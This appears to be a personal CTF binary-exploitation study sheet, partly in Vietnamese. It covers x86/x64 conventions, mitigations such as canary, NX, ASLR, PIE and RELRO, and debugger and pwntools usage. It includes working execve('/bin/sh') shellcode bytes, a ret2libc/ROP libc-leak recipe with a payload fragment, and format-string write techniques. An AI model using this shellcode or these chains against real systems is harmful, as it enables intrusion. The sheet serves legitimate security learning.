 # 📓 PWN STUDY NOTES

<details>
<summary><h1>🧠 Computer Architecture + Operating System</h1></summary>
<p>

## Registers

| Register | Description |
|----------|-------------|
| `rax`    | Return value of a function → `rax`, `eax`, `ax`, `ah`, `al` (64/32/16/8/8) |
| `rbx`    | Base register (no specific use in x64) |
| `rcx`    | Counter register for loops |
| `rdx`    | Data register |
| `rsi`    | Source index (source in data movement) |
| `rdi`    | Destination index (destination in data movement) |
| `rsp`    | Stack pointer |
| `rbp`    | Stack base pointer |

---

## User-space function calls (System V i386 ABI)
- **Arguments:** pushed **right → left** on the stack.
  At callee entry: `[esp+4]=arg1`, `[esp+8]=arg2`, …
- **Return:** `eax` (or `edx:eax`), FP in `st(0)`
- **Callee-saved:** `ebx`, `esi`, `edi`, `ebp` (and `esp`)
- **Caller-saved:** `eax`, `ecx`, `edx`
- **Stack alignment:** ABI baseline 4 bytes; SIMD code may realign to 16 bytes in prologue.

---

## Linux i386 **syscall** convention (`int 0x80`)
- **`eax`** = syscall number.
- **Args 1–6:** `ebx`, `ecx`, `edx`, `esi`, `edi`, `ebp`
- **Return:** `eax` (≥0 success; **negative** = `-errno`)
- Other regs not guaranteed preserved.

---

## Linux x86-64 **syscall** convention (`syscall` instruction)

- **`rax`** — syscall number.
- **Arguments (1–6):** `rdi, rsi, rdx, r10, r8, r9`  
- **Return value:** `rax` (≥ 0 on success; **negative** value = `-errno`) 
- Other registers are preserved per usual rules (`rbx, rbp, r12–r15` are callee-saved in user space).

---

## 🧱 MEMORY STRUCTURE OF LINUX PROCESS

- **Code Segment (.text)**: executable code (r--x)
- **Data Segment**: initialized global/static vars (rw-)
- **BSS Segment**: uninitialized global/static vars (rw-)
- **Heap Segment**: dynamic memory allocation (rw-)
- **Stack Segment**: local vars, return addresses (rw-)
- **Extra Segment**: `fs` and `gs` (used by OS)

---

## ⚙️ ASSEMBLY BASICS

### 🔹 Opcodes

- **Data Transfer**: `mov`, `lea`
- **Arithmetic**: `inc`, `dec`, `add`, `sub`
- **Logic**: `and`, `or`, `xor`, `not`
- **Comparison**: `cmp`, `test`
- **Branch**: `jmp`, `je`, `jg`
- **Stack**: `push`, `pop`
- **Procedure**: `call`, `ret`, `leave`
- **System call**: `syscall`

### 🔹 Memory Operands

- `QWORD PTR [addr]`: 8 bytes
- `DWORD PTR [addr]`: 4 bytes
- `WORD PTR [rax]`: 2 bytes
- `BYTE PTR [rax]`: 1 byte

<h2> View more in: </h2>

- [Computer Architecture](https://www.geeksforgeeks.org/computer-organization-architecture/computer-organization-and-architecture-tutorials/)
- [Assembly](https://www.tutorialspoint.com/assembly_programming/index.htm)
- [OS](https://www.tutorialspoint.com/operating_system/index.htm)

</p>
</details>


<details>
<summary><h1>📚 Summary of knowledge about pwn</h1></summary>
<p>

## 🐚 SHELLCODE

### 📌 Mục tiêu
Call `execve("/bin/sh", NULL, NULL)` to get shell.

---

### 🧬 Syscall Convention (x86_64)

| Register | Role |
|----------|------|
| `rax`    | Syscall number (`0x3b` for `execve`) |
| `rdi`    | arg0: filename (`/bin/sh`) |
| `rsi`    | arg1: argv (NULL) |
| `rdx`    | arg2: envp (NULL) |

---

### 🔩 Shellcode (x86_64)

```asm
mov rax, 0x68732f6e69622f   ; "/bin/sh" in hex
push rax
mov rdi, rsp                ; rdi = pointer to "/bin/sh"
xor rsi, rsi                ; rsi = NULL
xor rdx, rdx                ; rdx = NULL
mov rax, 0x3b               ; rax = syscall number for execve
syscall
```
bytes
`\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05`

---

### 🔩 Shellcode (x86)

```asm
xor eax, eax
xor ecx, ecx
xor edx, edx
add eax, 0x0b               ; syscall number for execve
xor ebx, ebx
push ebx
push 0x68732f2f             ; "//sh"
push 0x6e69622f             ; "/bin"
mov ebx, esp
int 0x80                    ; syscall
```
bytes
`\x31\xC0\x31\xC9\x31\xD2\x83\xC0\x0B\x31\xDB\x53\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\xCD\x80`

## 💥 BUFFER OVERFLOW

### 🧵 Input functions that can overflow

#### `gets(buf)` — **do not use (removed in C11)**
- **No input length limit.**
- Reads until `'\n'`, **does not store** the newline.
- Always appends `'\0'`.
- **Extremely unsafe** → classic stack overflow.

#### `scanf("%s", buf)`
- **No input length limit.**
- Reads until `" "`, `\n`, `\t`.
- Behaves like `gets()`.

#### `scanf("%[width]s", buf)`
- Read maximum `width` characters.
- If `width > sizeof(buf) - 1` → **may overflow**.
- Does not guarantee string **null-termination** (`\0`).

#### `fgets(buf, len, stream)`
- Read maximum `len - 1` characters, always appends `\0`. If input is longer, the excess remains in `stdin`.
- If input < `len`, the remaining part is filled with `\0`.
- If input = `len`, the last byte is discarded and `\0` is added.
- May **lose data**, e.g.: 30-byte buffer → can only store 29 characters if `len = 30`.
- If there's space, store `"\n\0"`.

#### `read(fd, buf, len)`
- Read maximum `len` bytes into `buf`.
- Returns the number of bytes read (≥ 0) or **negative** value on error.
- Does not guarantee null-termination (`\0`).
- Safe only if `len` is **less than or equal** to the sizeof(`buf`).

---

### 📌 Core Overflow types

- **Stack Overflow**: overwrite data on stack (return address, canary, ...).
- **Heap Overflow**: overwrites adjacent heap chunks/objects or allocator metadata.
- **Global/Static Overflow**: overwrites global variables or static data(`.data/.bss`).
- **Off-by-one**: overwrite one byte beyond buffer boundary, often affecting adjacent data.
- **Out-of-bounds**: access memory outside the allocated buffer.
- **Integer Overflow/Underflow**: occurs when an arithmetic operation produces a value outside the representable range of the integer type.

## 🛡️ CANARY (Stack Smashing Protector)

### 🧠 Mục đích
- **Chống tấn công buffer overflow** bằng cách phát hiện ghi đè lên vùng nhớ nhạy cảm.
- Nếu canary bị ghi đè → chương trình sẽ **Segmentation fault** và dừng ngay lập tức.

---

### 🔐 Cấu trúc
- Được lưu tại: `[rbp - 0x8]`
- Là một chuỗi **8 bytes ngẫu nhiên**, **byte đầu luôn là `\x00`**.

## 🔒 NX & ASLR

### 🚫 NX (No-eXecute)
- **Chống Shellcode**: Ngăn chặn thực thi code ở vùng bộ nhớ không được đánh dấu là thực thi.

---

### 🎲 ASLR (Address Space Layout Randomization)
- **Mục tiêu**: Phân bổ ngẫu nhiên địa chỉ cho stack, heap, shared libraries, ... mỗi khi chạy binary.
- **Lợi ích**: Gây khó khăn cho việc đoán địa chỉ khi tấn công.

---

### 🔗 RELRO (RELocation Read-Only)
- **no RELRO**: Cho phép ghi đè lên GOT (Global Offset Table).
- **partial RELRO**: GOT được chuyển thành chỉ đọc sau khi khởi tạo, nhưng một số phần vẫn có thể bị tấn công.
- **full RELRO**: Toàn bộ GOT được bảo vệ, **không thể ghi đè**.

---

### 🔧 Hook Overwrite
- **Ý tưởng**: Bypass RELRO bằng cách ghi đè các con trỏ hàm (như `malloc()`, `free()`, `realloc()`) với địa chỉ của hàm tùy ý nhằm thực thi code độc hại.

## 📌 PIE & RELRO

### 🔀 PIE (Position-Independent Executable)
- **Mục tiêu:** Thực thi binary với địa chỉ load thay đổi ( base address), làm cho việc exploit trở nên khó khăn hơn.
- **Hoạt động:** Mỗi lần chạy, binary sẽ được load vào một địa chỉ ngẫu nhiên, khiến cho việc đoán địa chỉ trở nên phức tạp.

---

### 🔄 PIC (Position-Independent Code)
- **Mục tiêu:** Cho phép code chạy đúng ở bất kỳ vị trí nào trong bộ nhớ.
- **Đặc điểm:** 
  - Không sử dụng địa chỉ tuyệt đối.
  - Phụ thuộc vào các địa chỉ tương đối (dựa trên giá trị của `RIP` trên x86_64) để thực hiện các phép tính địa chỉ.
- **Lợi ích:** Tăng tính linh hoạt và an toàn khi chương trình được load ở các địa chỉ khác nhau.

---

### 🔗 RELRO (RELocation Read-Only)
- **Bảo vệ:** Ngăn chặn ghi đè lên bảng địa chỉ (GOT) nhằm bảo vệ các hàm quan trọng khỏi bị khai thác.
- **Các cấp độ bảo vệ:**
  - **No RELRO:** GOT có thể bị ghi đè, dễ bị tấn công.
  - **Partial RELRO:** Một số phần của GOT được chuyển sang chế độ read-only sau khi khởi tạo.
  - **Full RELRO:** Toàn bộ GOT được bảo vệ hoàn toàn, rất khó bị khai thác.

## 🔄 R2L-ROP

### 📌 Khái niệm cơ bản

- **r2l (Return-to-libc):** Sử dụng lệnh `ret` để gọi hàm có sẵn trong libc, ví dụ: `system("/bin/sh")`.
- **ROP (Return Oriented Programming):** Sử dụng chuỗi các gadget (lệnh `ret` kết hợp với các lệnh nhỏ) để điều khiển luồng thực thi của chương trình.
- **GOT (Global Offset Table):** Bảng chứa địa chỉ của các hàm trong libc (ví dụ: `puts`).
- **PLT (Procedure Linkage Table):** Sử dụng để gọi các hàm qua GOT.
- Call a func : func_plt -> func_got -> func_libc
---

### 🔧 Các chi tiết kỹ thuật

- **Padding Return Address:** 
  - Return address được cấp 16 bytes.
  - Thêm lệnh `ret` trước gadget như `pop rdi; ret` để tránh lỗi do `movaps`.

- **Xác định địa chỉ hàm:**
  - Thông thường, `system` được tính bằng công thức:  
    `system = read - 0xc3c20`  
    (tham khảo `readelf -s libc.so.6 | grep "read@"` để biết offset chính xác)

- **Tìm ROP Gadget:**
  - Sử dụng lệnh:  
    ```bash
    ROP gadget --binary filename | grep "gadget"  
    #tìm ngay trong process
    pop_rdi_ret = r.find_gadget(['pop rdi', 'ret'])[0] #tìm các thanh ghi ex: pop rdi ; ret
    ```  
    ví dụ: tìm gadget `pop rdi; ret` để thiết lập đối số cho `system`.  
    quay lại `main` để khai thác tiếp (`e.symbols['main']`)

---

### 📌 Ví dụ trên x64

1. **Leak địa chỉ libc:**
   - Sử dụng hàm như `puts` để in ra địa chỉ được lưu trong GOT.
   - Ví dụ: dùng gadget `pop rdi; ret` để đưa địa chỉ của `puts@got` vào rdi và sau đó gọi `puts(puts@got)`.
   - Tính toán:
     - `libc_base = leaked_address - puts_offset (libc.symbols['puts'])`

2. **Xác định địa chỉ hàm `system` và chuỗi `/bin/sh`:**
   - `system = libc_base + system_offset`
   - `binsh = libc_base + offset_of_bin_sh`

3. **Triển khai ROP:**
   - Sử dụng gadget `pop rdi; ret` để thiết lập đối số cho hàm `system`.
   - ROP mẫu:  
     ```python
     p64(pop_rdi_ret) + p64(binsh) + p64(system)
     ```

---

### 📌 Ví dụ trên x86

Quy trình tấn công trên x86 có thể bao gồm:
1. Đọc dữ liệu vào writable area: `read(0, writableArea, len("/bin/sh"))`
2. Ghi địa chỉ của read_got ra màn hình: `write(1, read_got, len(str(read_got)))`
3. Đọc địa chỉ mới từ read_got: `read(0, read_got, len(str(read_got)))`
4. Gọi system với writableArea chứa "/bin/sh": `system(writableArea)`

## 📏 OUT OF BOUNDS

- **Out of Bounds (OOB):** Xảy ra khi chỉ số dùng để truy cập phần tử của mảng âm hoặc vượt quá độ dài của mảng.
- **Truy cập phần tử mảng:**  
  ```c
  &arr[k] = arr + sizeof(elem) * k

## 🔠 FORMAT STRING VULNERABILITY (FSB)

### Cách Hoạt Động của `printf`
- **`printf("%s", input)`**: In ra chuỗi được truyền vào biến `input`.
- **`printf("%s")`**: Nếu không có đối số, sẽ in ra giá trị tại địa chỉ thứ 1 trên stack.

### Chỉ Định Tham Số với `$`
- **`printf("%30$s")`**: In ra giá trị của đối số thứ 30 trên stack.
- **`printf("%6$p")`**: In ra địa chỉ (theo dạng hex có `0x`) của đối số thứ 6 trên stack.
- **`printf("%6$x")`**: In ra giá trị hex của đối số thứ 6 trên stack, không kèm `0x`.

### Ứng Dụng của Format String
- **Leak thông tin:**  
  Sử dụng các format specifier như `%p`, `%x`, `%d`, `%*\n` để leak các giá trị trên stack (địa chỉ, giá trị số, ...).
- **Đọc dữ liệu vùng nhớ:**  
  Sử dụng `%s` để in ra chuỗi nằm tại địa chỉ được tham chiếu từ stack (ví dụ: đọc flag).
- **Ghi đè bộ nhớ:**  
  Sử dụng `%n`, `%hn`, `%hhn` để ghi số lượng ký tự đã in ra vào một địa chỉ cụ thể, cho phép thay đổi giá trị của biến trong bộ nhớ.

### Phân Biệt 32-bit và 64-bit
- **32-bit:** Các đối số thường được in trực tiếp từ stack.
- **64-bit:**  
  - 5 đối số đầu tiên được truyền qua các thanh ghi: `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`.
  - Từ đối số thứ 6 trở đi, các giá trị được lấy từ stack (ví dụ: `rsp`, `rsp+0x8`, `rsp+0x10`, `rsp+0x18`).

</p>
</details>

<details>
<summary><h1>🐞 Pwndbg</h1></summary>
<p>

[Pwndbg](https://github.com/pwndbg/pwndbg) is an extension for GDB that provides many useful commands for analyzing and exploiting binaries.

---

## 🔍 Some useful commands

- **`checksec`**: show security features of the binary:
  - **Canary:** anti buffer overflow (often set at `[rbp-0x8]`).
  - **NX (Non-Executable):** prevents execution of shellcode on the stack.
  - **PIE (Position Independent Executable):** Binary is loaded at a random address.
  - **RELRO (RELocation Read-Only):** Checks the protection feature of the address table (GOT). (anti GOT overwrite)

- **`start`**: run the program and stop right at the beginning of the `main` function, helping you quickly start debugging.

- **`disass <func>` (disassemble)**: disassemble the specified function.

- **`vmmap`**: show virtual memory map of the process, including regions: stack, heap, libraries, and other segments, also displays their permissions, size, offsets and file paths.

- **`run`**: execute the program from the beginning.

- **`b *<address>` (break)**: set a breakpoint at a specific address.
  - *Ex:* `b *0x400123`

- **`del <breakpoint>` (delete)**: delete the specified breakpoint.

- **`c` (continue)**: continue executing the program until the next breakpoint or when the program stops.

- **`finish`**: continue executing until the current function ends.

- **`si` (step into)**: execute the next instruction and step into any functions (if present).

- **`ni` (next instruction)**: execute the next instruction but do **not** step into any functions.

- **`i` (info)**: show information about the program state, for example:
  - `i r` (info registers): Information about the registers.
  - `i b` (info breakpoints): List of breakpoints.

- **`k` (kill)**: kill the debugging process.

- **`bt` (backtrace)**: show the call stack at the time of stopping.

- **`x` (examine)**: examine memory at a specific address.
  - Form: `x/<count><format> <address>`

  | Format | Size |
  |--------|------|
  |`x` (hexadecimal) | `b` (Byte, 1 bytes) |
  |`o` (octal) | `h` (Halfword, 2 bytes) |
  |`d` (decimal) | `w` (Word, 4 bytes) |
  |`u` (unsigned decimal) | `g` (Giant, 8 bytes) |
  |`s` (string) |  |
  |`t` (binary) |  |
  |`f` (float) |  |
  |`a` (address) |  |
  |`c` (character) |  |
  |`i` (instruction) |  |
  - *Ex:* `x/10wx 0x601000` show 10 words in hex format from address `0x601000`.

- **`tel` (telescope)**: show memory around the current instruction pointer, recursively explores addresses referenced by the memory to display their values.

- **`context`**: show an overview of the current state of the process, including registers, stack, and disassembly around the current address.

- **`heap`**: show detailed information about the heap, assisting in the analysis of heap-related vulnerabilities.

- **`vis_heap_chunks`**: visualize heap chunks, showing their metadata and contents.

- **`search`**: search for a string or byte sequence in memory.
  - *Ex:* `search "flag"` will find all locations containing the string `"flag"`.

- **`p &<variable>` (print)**: print the address of a specific variable.
  - *Ex:* `p &0x601000` will print the value at address `0x601000`.

- **`pattern_create`** and **`pattern_offset`**
  - Useful for creating and analyzing pattern strings (cyclic patterns) to find offsets during exploitation:
    - `pattern_create 100`: Create a pattern with 100 bytes.
    - `pattern_offset <value>`: Determine the position of the `<value>` in the pattern.

- **`set detach-on-fork off`**: tells GDB to not detach from the other processes after program calls `fork()/vfork()`. Both parent and child processes will stay under GDB as separate inferiors.
  - **`set follow-fork-mode child/parent`**: process that GDB will follow after a fork.
  - **`info inferiors`**: list tracked processes.
  - **`inferior <id>`**: switch to a specific inferior process.

</p>
</details>

<details>
<summary><h1>🧰 Pwntools</h1></summary>
<p>

[PwnTools](https://github.com/Gallopsled/pwntools) is a powerful library that supports binary mining and automation. Here are some basic commands and techniques:

---

### 🔹 Process & Remote

```python
from pwn import *

# Khởi tạo process cục bộ
p = process('./filename')        # Local binary

# Kết nối tới server từ xa
p = remote('address', port)      # Remote server

# Đính kèm gdb để debug (với API của pwntools)
gdb.attach(p, api=True)
```

### 🔹 ELF & Libc

```python
# Load binary và libc
e = ELF('./filename')
libc = ELF('./libc.so.6')

# Lấy địa chỉ từ PLT (Procedure Linkage Table)
plt_addr = e.plt['funcname']

# Lấy địa chỉ từ GOT (Global Offset Table)
got_addr = e.got['funcname']

# Lấy offset của hàm trong binary
func_offset = e.symbols['funcname']

# Lấy offset của hàm trong libc (chú ý: tên symbol phải chính xác)
libc_func_offset = libc.symbols['funcname']

# Tìm vị trí chuỗi "/bin/sh" trong libc
bin_sh = list(libc.search(b'/bin/sh'))[0]
```

### 🔹 Packing & Unpacking

```python
# Chuyển đổi số thành chuỗi byte dạng little-endian (64-bit và 32-bit)
packed_64 = p64(0xdeadbeef)
packed_32 = p32(0xdeadbeef)

# Giải nén chuỗi byte thành số nguyên (64-bit và 32-bit)
number_64 = u64(b'\xef\xbe\xad\xde\x00\x00\x00\x00')
number_32 = u32(b'\xef\xbe\xad\xde')
```

### 🔹 Sending and receiving data

```python
# Gửi dữ liệu
p.send(b'A')                      # Gửi 1 byte 'A'
p.sendline(b'A')                  # Gửi 'A' kèm newline

# Gửi dữ liệu sau khi nhận được prompt
p.sendafter(b'hello', b'A')
p.sendlineafter(b'hello', b'A')

#send and sendline
send: read
sendline: scanf, gets, fgets

# Nhận dữ liệu
data = p.recv(1024)               # Nhận tối đa 1024 byte
line = p.recvline()               # Nhận đến khi gặp newline
exact = p.recvn(5)                # Nhận chính xác 5 byte
until = p.recvuntil(b'hello')     # Nhận cho đến khi gặp chuỗi 'hello'
all_data = p.recvall()            # Nhận toàn bộ dữ liệu cho đến khi process kết thúc
```

### 🔹 Shellcode

```python
# Shellcode dạng bytes (x86)
shellcode_x86 = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    b"\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9"
    b"\x31\xd2\xb0\x0b\xcd\x80"
)

# Shellcode dạng bytes (x86_64)
shellcode_x86_64 = (
    b"\x48\x31\xFF\x57\x48\xBF\x2F\x62\x69\x6E"
    b"\x2F\x2F\x73\x68\x57\x48\x31\xF6\x48\x31\xD2"
    b"\x48\x89\xE7\x48\x31\xC0\x48\x83\xC0\x3B\x0F\x05"
)

# Tạo shellcode để spawn shell bằng shellcraft
code = shellcraft.sh()
machine_code = asm(code)          # Assembles shellcode thành machine code

# Ví dụ: sử dụng shellcode để cat file (lúc excerve bị band)
shellcraft.cat() có thể được sử dụng để in nội dung của file trong một số tình huống
```

### 🔹 Print & Interactive

```python
# Hiển thị thông tin ra console
log.info("Thông tin hữu ích" + info)

# Chuyển sang chế độ interactive để tương tác trực tiếp với process
p.interactive()
```

</p>
</details>

<details>
<summary><h1>🔗 Pwninit</h1></summary>
<p>

[Pwninit](https://github.com/io12/pwninit) is a tool for patching binary with provided libc and loader.

---
Commands:

- `pwninit`: tự patch file
- `mv file_patch file`: đổi tên

</p>
</details>

<details>
<summary><h1>🛠️ Other useful tools</h1></summary>
<p>

- [CyberChef](https://gchq.github.io/CyberChef/) : tool for analyzing and decoding data

- [LinuxSyscallReference(64bit)](https://syscalls64.paolostivanin.com/) : tool for looking up Linux syscalls and their parameters

- [Online Assembler/Disassembler](https://defuse.ca/online-x86-assembler.htm) : tool for assembling and disassembling x86/x64

</p>
</details>
